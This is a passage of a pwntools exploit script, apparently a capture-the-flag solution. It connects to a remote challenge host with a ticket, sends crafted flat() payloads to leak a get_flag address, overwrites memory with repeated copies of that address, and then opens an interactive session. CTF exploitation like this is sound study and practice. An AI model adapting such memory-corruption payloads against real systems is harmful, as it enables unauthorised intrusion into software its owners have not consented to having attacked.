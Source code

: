```py
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    io.sendlineafter(b'Ticket please:\n', ticket)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

b = -0x100 + 5
c = 0x1000 + 10 + 0x100 - 20

io.sendlineafter(
    b'> ',
    flat({4: b, 8: c, 0x124: b}, length=0x500, word_size = 32)
)

io.sendlineafter(b'> ', b'')

io.recvuntil(b'get_flag: ')
get_flag = int(io.recvline(), 0)

io.success("get_flag: " + hex(get_flag))

io.sendline(b'')
io.sendline(flat([pack(get_flag) + b'\x00' * 2] * 100))

io.sendline(b'A' * 0x61)
io.sendline(b'A' * 0x61)
io.sendline(b'A' * 0x25)

io.interactive()
```
